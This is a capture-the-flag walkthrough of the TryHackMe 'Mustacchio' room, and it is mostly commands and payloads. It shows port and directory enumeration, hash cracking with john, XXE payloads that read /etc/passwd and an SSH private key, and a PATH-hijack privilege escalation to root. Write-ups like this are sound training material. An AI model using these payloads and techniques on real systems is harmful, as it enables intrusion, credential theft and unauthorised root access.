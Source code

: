# 26 - Mustacchio (XML Injection)

Room Link --> [https://tryhackme.com/room/mustacchio](https://tryhackme.com/room/mustacchio)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nmap -p- -sS -Pn -n -T5 10.10.109.222 -vv

# outputs
PORT     STATE SERVICE        REASON
22/tcp   open  ssh            syn-ack ttl 63
80/tcp   open  http           syn-ack ttl 63
8765/tcp open  ultraseek-http syn-ack ttl 63
```
{% endcode %}

#### Gobuster enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.109.222 -w /usr/share/dirb/wordlists/common.txt -x txt -t 500 2>/dev/null

# output
/custom 
/fonts
/images
```
{% endcode %}

Navigating to http://10.10.109.222/custom and discovered a "users.bak" sqlite db file, then opened and found credentials for "admin" user.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Or we can use the Sqlite3 cmd binary to view.

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ sqlite3 users.bak                                                                                     
SQLite version 3.43.1 2023-09-11 12:01:27
Enter ".help" for usage hints.
sqlite> .tables
users
sqlite> pragma table_info(users);
0|username|TEXT|1||0
1|password|TEXT|1||0
sqlite> SELECT * from users;
admin|1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
sqlite>
```
{% endcode %}

Crack the hash using john.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# its a sha1 hash.
john passwd --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-sha1
bulldog19        (?)

# got a valid credential
admin : bulldog19
```
{% endcode %}

#### port 8765 enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.109.222:8765 -w /usr/share/dirb/wordlists/common.txt -x txt -t 500 2>/dev/null

# outputs
/assets
/auth
/index.php
```
{% endcode %}

Navigating to `http://10.10.109.222:8765/index.php` was an admin login session.

I tried the admin credentials and was logged in successfully.

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After authentication ,check the source code and see a link in the "\<script>" session.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Navigating to the path:  `http://10.10.109.222:8765/auth/dontforget.bak` downloaded the  "dontforget.bak" file. And there is also a comment in the page displaying a username: Barry.

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

When you click the SUbmit button we get prompted with a "Insert XML Code!" alert, which suggest the page might be vulnerable to XML injection attack.

A resource we can use to structure our payload --> [Hacktricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity?source=post\_page-----ee526a543d8a--------------------------------)

#### XML Injection

I Was able to craft my own payload to view the /etc/passwd file usisng the structure of the XML code in the "dontforget.bak" file.

{% code overflow="wrap" lineNumbers="true" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace SYSTEM "/etc/passwd"> ]>
<comment>
  <name>&toreplace;</name>
  <author>Barry Clad</author>
  <com>D31ng Hack3d</com>
</comment>
```
{% endcode %}

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we see 2 users + root, ie; Joe, Barry and Root. Our focus should be on reading the ssh private key for Barry as hinted by the comment in the source code. And i crafted another payload to read it:

{% code overflow="wrap" lineNumbers="true" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace SYSTEM "/home/barry/.ssh/id_rsa"> ]>
<comment>
  <name>&toreplace;</name>
  <author>Barry Clad</author>
  <com>D31ng Hack3d</com>
</comment>
```
{% endcode %}

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

It will be hard to use in this case, so i viewed the source code instead.

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

First thing is to check if it iss encrypted by converting it to a crackable format for "johnthereaper"

{% code overflow="wrap" lineNumbers="true" %}
```bash
ssh2john id_rsa > id_hash.john
john id_hash.john --wordlist=/usr/share/wordlists/rockyou.txt

# and the password is:
urieljames       (id_rsa)

# login ssh.
ssh barry@10.10.109.222 -i id_rsa
```
{% endcode %}

And we got access :)

### Priv Esc to Joe

#### SUID binaries:

{% code overflow="wrap" lineNumbers="true" %}
```bash
find / -user root -perm /4000 -exec ls -l {} \; 2>/dev/null

# i ssaw a "/home/joe/live_log" binary 
-rwsr-xr-x 1 root root 16832 Jun 12  2021 /home/joe/live_log
```
{% endcode %}

Using the **strings** command, I could see that the binary was using the **tail** command to read the last 10 entries in the _/var/log/nginx/access.log_ file. We could exploit this.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# we get root this way.

barry@mustacchio:~$ echo "/bin/sh" > /tmp/tail
barry@mustacchio:~$ export PATH=/tmp:$PATH 
barry@mustacchio:~$ /home/joe/live_log
# id
uid=0(root) gid=0(root) groups=0(root),1003(barry)
# 
```
{% endcode %}

Done!
